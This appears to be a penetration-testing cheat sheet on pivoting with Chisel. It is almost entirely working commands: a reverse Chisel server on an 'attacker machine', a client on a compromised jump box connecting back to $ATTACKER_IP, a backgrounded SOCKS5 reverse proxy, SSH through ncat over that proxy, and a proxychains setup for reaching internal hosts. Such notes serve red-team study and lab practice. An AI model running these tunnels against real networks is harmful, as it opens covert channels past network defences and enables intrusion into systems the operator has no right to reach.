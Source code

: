 Using CHISEL:
---

single port on attacker machine

```bash
chisel server --port 8000 --reverse
```

from jump box

```bash
./chisel client $ATTACKER_IP:8000 R:$PORT:$DEST_IP:$PORT
```

 Opening socks5 server on LOCAL machine on port 1080

```bash
chisel server --port 8001 --socks5 --reverse
```

on jump box

```bash
./chisel client --max-retry-count 1 $ATTACKER_IP:8001 R:socks
```

or as a background process to free up the shell

```bash
./chisel client --max-retry-count 1 $ATTACKER_IP:8001 R:socks > /dev/null 2>&1 &
```

using ssh with chisel socks:

```bash
#on kali
chisel server --port 8080 --reverse
#on middle box
chisel client $KALI_IP:8080 R:socks > /dev/null 2>&1 &
#finally on kali
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' $USER@$TARGET_IP
```

Then edit proxychains config:
  
```config
socks5 127.0.0.1 1080
```

Execute commands with

```bash
proxychains -q
```

in front of them